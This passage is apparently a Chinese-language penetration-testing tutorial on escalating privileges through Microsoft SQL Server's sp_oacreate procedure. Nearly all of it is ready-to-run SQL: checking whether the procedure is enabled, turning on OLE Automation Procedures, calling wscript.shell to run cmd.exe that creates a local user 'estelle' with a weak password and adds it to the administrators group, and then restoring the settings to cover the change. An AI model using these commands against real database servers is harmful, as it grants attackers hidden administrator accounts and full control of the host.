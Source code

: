 
二、**步骤**

1. 判断 sp_oacreate 状态

在 master.dbo.sysobjects 中查看 sp_oacreate 状态，回显为 1 代表开启。

> select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE';

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfVichlI4OAmDXfh2gHAj9fRSMqaYna2k9ibwooND9hWffXqron8YS5hKQ/640?wx_fmt=png)

2.  若未开启，执行以下命令开启 sp_oacreate（启用 OLE Automation Procedures）。
    

> exec sp_configure 'show advanced options',1;
> 
> reconfigure;
> 
> exec sp_configure 'Ole Automation Procedures',1;
> 
> reconfigure;

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWVsbUZ1duonaM1GLzaFIdfA1d4ISpET23G3ibGcV1iccWhGMbpQqib7bo18gfuLw4JvV2b1XyjaUicTA/640?wx_fmt=png)

当启用 ole automation procedures 时，对 sp_oacreate 的调用将会启动 OLE 共享执行环境。

3.  提权（调用 wscript.shell 执行命令）
    

> declare @shell  int；#  声明一个变量 @shell
> 
> exec sp_oacreate 'wscript.shell',@shell  output；
> 
> #  使用 sp_oacreate 调用 wscript.shell 组件，将返回的对象存储到 @shell 变量中
> 
> exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net user estelle 123456 /add'；
> 
> #  使用 sp_oamethod 调用 @shell 对象中的 run 方法，执行系统命令添加用户， null 是 run 方法的返回值，而现在不需要用返回值，所以写为 null。
> 
> exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net localgroup administrators estelle /add'
> 
> # 将用户添加到管理员组。

4.  恢复配置
    

> exec sp_configure “ole automation procedures”,0
> 
> reconfigure
> 
> exec sp_configure “show advanced options” , 0
> 
> reconfigure

以上是使用 sp_oacreate 的提权语句，其核心就是调用 OLE 对象（Object Linking and Embedding 的缩写，VB 中的 OLE 对象），利用 OLE 对象的 run 方法执行系统命令。
